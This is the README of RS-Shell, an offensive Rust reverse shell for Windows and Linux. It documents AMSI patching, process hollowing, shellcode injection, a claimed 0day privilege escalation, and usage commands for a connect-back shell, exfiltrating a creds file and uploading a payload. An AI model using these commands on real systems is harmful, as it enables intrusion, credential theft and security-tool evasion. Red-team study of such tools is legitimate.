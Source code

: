 *"The worst Rust programmer you have ever seen"* - my mom

*"But at least it works"* - still my mom, but not about me

# RS-Shell

RS-Shell is a TLS over TCP reverse shell developped in Rust with client and server embedded in the same binary. This project has been mainly started to learn Rust with a tool that could help me in my work, and the code quality could be greatly improved.

Client and server are both cross-platform and work on Windows and Linux systems.

For Windows client, additonal features have been integrated for offensive purpose, and they will be improved in futur commits.

For this purpose, I have chosen to mainly use the official [windows_sys](https://docs.rs/windows-sys/latest/windows_sys/) crate to interact with the Win32API and the [ntapi](https://docs.rs/ntapi/latest/ntapi/) crate for the NTAPI.

The project is thought in module. This means that you can easily add or remove features to and from it, and you can also easily take parts from it to put them in your own project.

## Features

For the moment, the following features are present:

* Semi-interactive reverse shell via TLS over TCP
* File upload and download between server and client
* Start a PowerShell interactive session with the ability to patch the AMSI in memory
* Loading features :
  * Load and execute a PE in the client memory
  * Load and execute a PE in a remote process memory
  * Load and execute a shellcode in a remote process memory
* Autopwn the client machine and elevate the privileges to SYSTEM or root by exploiting a 0day in `tcpdump`

## How to

### Setup

I have set a `dummy` domain for hostname validation in the `connect()` function for both clients. If you use a signed certificate for a real server, you can change it and remove the unsecure functions that remove hostname and certs validations.

By default, only the `error`, `warn` and `info` logs are displayed. If you also need the `debug` ones (can be usefull for the loading features), you can change this in `main.rs` by modifying `::log::set_max_level(LevelFilter::Info);` to `::log::set_max_level(LevelFilter::Debug);`.

A new self-signed TLS certificate can be obtained like this :

```bash
openssl req -newkey rsa:2048 -nodes -keyout private.key -x509 -days 365 -out certificate.cer
openssl pkcs12 -export -out certificate.pfx -inkey private.key -in certificate.cer
```

### Compilation

The project can be compiled with `cargo build --release` on Windows or Linux and the binary will be present in `target/release/`, or the target name if a target is specified.

Tu compile for a different target than your current OS you can use, for example, `cargo build --release --target x86_64-unknown-linux-gnu` (be sure to use the appropriate toolchain and to have all the required dependencies).

The project compilation has been tested with the following Rust toolchains :

* `stable-x86_64-pc-windows-gnu`
* `stable-x86_64-pc-windows-msvc`
* `stable-x86_64-unknown-linux-gnu`

If you compile the project for a Linux target, the "Windows features" will be removed at compilation.
Should run on all Windows and Linux versions (I have hope).

### Usage

```plain
Usage: rs-shell.exe [OPTIONS] --side <side> --ip <ip> --port <port>

Options:
  -s, --side <side>            launch the client or the listener [possible values: c, l]
  -i, --ip <ip>                IP address to bind to for the listener, or to connect to for the clien
  -p, --port <port>            port address to bind to for the listener, or to connect to for the client
      --cert-path <cert_path>  path of the TLS certificate (in PFX or PKCS12 format) for the server
      --cert-pass <cert_pass>  password of the TLS certificate for the server
  -h, --help                   Print help
  -V, --version                Print version

In a session, type 'help' for advanced integrated commands
```

To obtain a session, just launch the binary in listener mode on your machine with `rs-shell.exe -s l -i IP_to_bind_to -p port_to_bind_to --cert-path certificate_path --cert-pass certificate_password`. For example `rs-shell.exe -s l -i 0.0.0.0 -p 4545 --cert-path certificate.pfx --cert-pass "Password"`.

Then, on the target machine launch the client to connect back to your server with `rs-shell.exe -s c -i IP_to_connect_to -p port_to_connect_to`. For example `rs-shell.exe -s c --ip 192.168.1.10 --port 4545`.

### Advanced commands

```plain
> help
[+] Custom integrated commands :

    [+] Loading commands
    > load C:\path\to\PE_to_load
        load a PE file in the client process memory and executes it. This could kill the reverse shell !
    > load -h C:\path\to\PE_to_load C:\path\to\PE_to_hollow
        load a PE file in a remote process memory with process hollowing and executes it
    > load -s C:\path\to\shellcode.bin C:\path\to\PE_to_execute
        load a shellcode in a remote process memory and start a new thread with it

    [+] Bypass commands
    > powpow
        start a new interactive PowerShell session with the AMSI patched in memory

    [+] Network commands
    > download C:\file\to\download C:\local\path
        download a file from the remote system
    > upload C:\local\file\to\upload C:\remote\path\to\write
        upload a file to the remote system

    [+] Special commands
    > autopwn
        escalate to the SYSTEM or root account from any local account by exploiting a zero day
```

The `load` commands permit to load and execute directly in memory:

* `load` loads and execute a PE in the client memory. This will kill the reverse shell, but that could be usefull to launch a C2 implant in the current process for example
* `load -h` loads and execute a PE in a created remote process memory with process hollowing. You don't lose your reverse shell session, but the process hollowing will be potentially flag by the AV or the EDR
* `load -s` loads and execute a shellcode from a `.bin` file in a created remote process memory. You don't lose your reverse shell session, and you don't have to drop the bin file on the target, since the shellcode will be transfered to the target via the TCP tunnel

For example : `> load -h C:\Windows\System32\calc.exe C:\Windows\System32\cmd.exe`. This will start a `cmd.exe` process with hollowing, load a `calc.exe` image in the process memory, and then resume the thread to execute the calc.

`powpow` starts an interactive PowerShell session with a PowerShell process where the AMSI `ScanBuffer` function has been patched in memory. This feature is not particularly opsec.

`download` permits to download a file from the client to the machine where the listener is running. For example `download C:\Users\Administrator\Desktop\creds.txt ./creds.txt`.

`upload` permits to upload a file on the client machine. For example `upload ./pwn.exe C:\Temp\pwn.exe`.

`autopwn` permits to escalate to the **SYSTEM or root account** with a 0day exploitation. Just type `autopwn` and answer the question.

## Todo

- [ ] Move all the Win32API related commands to the NTAPI with indirect syscalls
- [ ] Implement other injection techniques
- [ ] Implement a port forwarding solution
- [ ] Find a way to create a fully proxy aware client
- [ ] Implement a reverse socks proxy feature

## Acknowledgements

* [OffensiveRust](https://github.com/winsecurity/Offensive-Rust) by [winsecurity](https://github.com/winsecurity). This project would never have existed without him. Many of functions, structures, and tricks present in `rs-shell` come from this project
* [OffensiveRust](https://github.com/trickster0/OffensiveRust) by [trickster0](https://github.com/trickster0)
* Multiple projects by [memN0ps](https://github.com/memN0ps)
* [RustPacker](https://github.com/Nariod/RustPacker) by [Nariod](https://github.com/Nariod)
* Nik Brendler's blog posts about pipe communication between process in Rust. [Part 1](https://www.nikbrendler.com/rust-process-communication/) and [Part 2](https://www.nikbrendler.com/rust-process-communication-part-2/)
